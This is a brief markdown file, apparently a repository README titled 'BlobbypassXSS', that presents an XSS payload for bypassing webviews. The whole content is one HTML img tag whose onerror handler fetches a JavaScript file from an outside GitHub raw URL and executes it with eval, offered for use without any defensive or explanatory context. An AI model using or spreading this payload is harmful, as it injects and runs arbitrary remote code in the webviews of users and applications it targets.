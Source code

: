 # BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/aaaaaaajiandah/Lego-Spark-XSS.bypass/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
